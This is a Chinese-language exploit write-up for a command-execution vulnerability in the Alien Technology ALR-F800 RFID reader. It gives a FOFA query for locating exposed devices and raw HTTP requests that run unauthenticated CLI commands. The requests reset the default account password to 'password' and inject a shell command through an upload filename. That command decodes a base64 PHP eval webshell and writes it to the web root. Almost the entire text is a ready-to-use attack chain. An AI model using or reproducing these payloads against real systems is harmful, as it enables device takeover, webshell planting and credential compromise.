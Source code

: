 # ALR-F800存在命令执行漏洞

该漏洞存在于 /var/www/cmd.php 中，未经授权的攻击者可以执行任意 CLI 命令，包括修改网络配置和登录凭据。

## fofa

```java
"ALR-F800"
```

## poc

```java
POST /cmd.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

cmd=help
```

重置密码

```java
POST /cmd.php HTTP/1.1
Host: VULNERABLE_SERVER_IP
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

cmd=password=password
```

Web 界面和 SSH 的默认帐户（用户名 Alien）的密码将重置为密码 password

## 写文件

通过上面修改了web页面密码，进行修改Authorization认证，再通过下面请求包进行getshell

```java
POST /cgi-bin/upgrade.cgi HTTP/1.1
Host: VULNERABLE_SERVER_IP
Authorization: Basic YWxpZW46cGFzc3dvcmQ=
Content-Length: 301
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQ3keNKAe5AQ9G7bs

------WebKitFormBoundaryQ3keNKAe5AQ9G7bs
Content-Disposition: form-data; name="uploadedFile"; filename=";echo ZWNobyAiPD9waHAgZXZhbChcJF9SRVFVRVNUWydjbWQnXSk7Pz4iID4gL3Zhci93d3cvc2hlbGwucGhw| base64 -d | sh"
Content-Type: application/octet-stream

Hi！
------WebKitFormBoundaryQ3keNKAe5AQ9G7bs
```

WebShell将被写入：

```
https://VULNERABLE_SERVER_IP//shell.php?cmd=phpinfo();
```



## 命令执行

```java
POST /admin/system.html HTTP/1.1
Host: VULNERABLE_SERVER_IP
Content-Length: 412
Cache-Control: max-age=0
Authorization: Digest username="alien", realm="Authorized users only", nonce="e01f9b86814aced6260f94fdfc978b21", uri="/admin/system.html", response="cbc415aecfcceb4a4afa23973960b8da", qop=auth, nc=000000cc, cnonce="dd03b48ea65cac94" #REPLACE THIS
Connection: keep-alive

------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="upload_max_filesize"

3M
------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="uploadedFile"; filename=";whoami"
Content-Type: application/octet-stream

123
------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="action"

Install
------WebKitFormBoundaryJpks6wYXiOago8MS--
```



## 漏洞来源

- https://github.com/Push3AX/vul/blob/main/Alien%20Technology%20/ALR-F800.md